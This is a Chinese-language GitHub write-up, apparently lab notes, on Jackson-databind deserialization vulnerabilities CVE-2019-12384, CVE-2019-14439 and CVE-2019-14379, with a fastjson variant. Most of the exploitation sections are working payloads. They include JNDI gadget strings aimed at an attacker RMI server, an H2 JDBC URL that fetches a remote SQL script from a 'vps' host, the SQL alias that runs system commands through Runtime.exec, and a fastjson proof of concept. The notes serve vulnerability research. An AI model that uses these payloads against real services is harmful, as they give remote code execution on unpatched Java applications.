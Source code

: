 # CVE-2019-12384 2019/07/22 及其补丁绕过 CVE-2019-14439、CVE-2019-14379


## 概述

这个漏洞的利用有两个特别鸡肋的点：

第一点， 它需要依赖两个jar才能造成rce漏洞；除去jackson自身的jar包以外还需要logback-core和h2;相同的套路在fastjson也是可以造成RCE的,同样也依赖jar包

靶场使用的 logback-core和h2：


		<!--https://mvnrepository.com/artifact/ch.qos.logback/logback-core -->
		<dependency>
		    <groupId>ch.qos.logback</groupId>
		    <artifactId>logback-core</artifactId>
		    <version>1.3.0-alpha4</version>
		</dependency>
		
		<!--https://mvnrepository.com/artifact/com.h2database/h2 -->
		<dependency>
		    <groupId>com.h2database</groupId>
		    <artifactId>h2</artifactId>
		    <version>1.4.199</version>
		    <scope>test</scope>
		</dependency>
		<dependency>
		    <groupId>com.h2database</groupId>
		    <artifactId>h2</artifactId>
		    <version>1.4.199</version>
		    <scope>compile</scope>
		</dependency> 


第二点， 注意这个漏洞的触发，是在序列化恶意的对象的时候触发的，而jackjson大部分情况在web中都是用于处理去反序列化前端传入的json数据的。

## 利用

#### 利用点1 CVE-2019-12384 补丁绕过 payload

	ch.qos.logback.core.db.JNDIConnectionSource

![](3.jpg)

针对CVE-2019-12384漏洞的绕过利用方式。 这个CVE 主要用jdbc的 SSRF 和 RCE 调用链 


//jndi绕过链

 	payload = "[\"ch.qos.logback.core.db.JNDIConnectionSource\", {\"jndiLocation\":\"rmi://VPS:1099/TouchFile\"}]";

![](1.jpg)

![](2.jpg)

<br/>

![](res1.jpg)



#### 利用点2  SSRF

 

(这种利用方式我还不是很理解)

	
	 payload = "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:tcp://localhost:2333/~/test\"}]";


因为我myeclipse装在windows环境，所以在windows安装个 nc 监听。

下载地址：https://eternallybored.org/misc/netcat/

https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip

![](5.jpg)

![](4.jpg)


[利用 Gopher 协议拓展攻击面-by 长亭科技](https://blog.chaitin.cn/gopher-attack-surfaces/)

#### 利用点3 DriverManagerConnectionSource   RCE 

DriverManagerConnectionSource 调研远端恶意sql，里面构造了恶意方法，可执行系统命令

payload:

	payload = "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://vps:8000/inject.sql'\"}]";


恶意sql insert.sql
	
	CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	        String[] command =  {cmd};
	        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	        return s.hasNext() ? s.next() : "";  }
	$$;
	CALL SHELLEXEC('calc.exe')

启动一个恶意服务器：

	python -m SimpleHTTPServer 8000

服务器下放恶意文件 insert.sql，根据靶机系统linux和windows修改不同的执行代码

向靶机服务器发送poc,

![](6.jpg)

<br/>

![](7.jpg)

成功弹出计算器。

## fastjson 也受影响

具体版本没调查清楚。

FastJsonTest.java

	import com.alibaba.fastjson.JSON;
	import com.alibaba.fastjson.JSONObject;
	import com.alibaba.fastjson.parser.ParserConfig;
	
	public class FastJsonTest {
	public static void main(String[] args){
	        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
	        String payload = "{\"@type\":\"ch.qos.logback.core.db.DriverManagerConnectionSource\", \"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost/inject.sql'\"}";
	        JSONObject json = JSON.parseObject(payload);
	        json.toJSONString();
	    }
	}


payload:

 	String payload = "{\"@type\":\"ch.qos.logback.core.db.DriverManagerConnectionSource\", \"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://vps/inject.sql'\"}";


[fastjson影响的参考资料](https://www.freebuf.com/vuls/209394.html)

## 参考资料

[Jackson CVE-2019-12384: anatomy of a vulnerability class](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)


[l1nk3r师傅的分析](https://www.cnblogs.com/iyiyang/articles/11360842.html)

## CVE-2019-14439   190807


为针对CVE-2019-12384漏洞的绕过利用方式


	payload = "[\"ch.qos.logback.core.db.JNDIConnectionSource\", {\"jndiLocation\":\"rmi://VPS:1099/TouchFile\"}]";

#### 影响版本

jackson-databind < 2.9.9.2

jackson-databind < 2.10.0

jackson-databind < 2.7.9.6

jackson-databind < 2.8.11.4


[CVE-2019-14439](https://srcincite.io/blog/2019/08/07/attacking-unmarshallers-jndi-injection-using-getter-based-deserialization.html)


对于这篇文章https://nvd.nist.gov/vuln/detail/CVE-2019-14361 说的 CVE-2019-14361 已被驳回

## CVE-2019-14379

payload

    String jsonStr2 = "[\"net.sf.ehcache.transaction.manager.DefaultTransactionManagerLookup\",{\"properties\":{\"jndiName\":\"rmi://127.0.0.1:1099/ExportObject\"}}]";

#### 影响版本

jackson-databind < 2.9.9.2

jackson-databind < 2.10.0

jackson-databind < 2.7.9.6

jackson-databind < 2.8.11.4

[参考资料](https://mp.weixin.qq.com/s?__biz=MzA3NjU5MTIxMg==&mid=2650561407&idx=1&sn=80abebd21753292995e7e7927eeface3&chksm=8756027cb0218b6a53d5b70379b6a669c41d8bfc226dde7e533f454c2bcc58d270c5d426c997&mpshare=1&scene=1&srcid=0120wQQH1ltJU5WfqajksGld&sharer_sharetime=1579520413613&sharer_shareid=0bc656b40f7ceaf4f41b618b9b3d6cd8#rd)
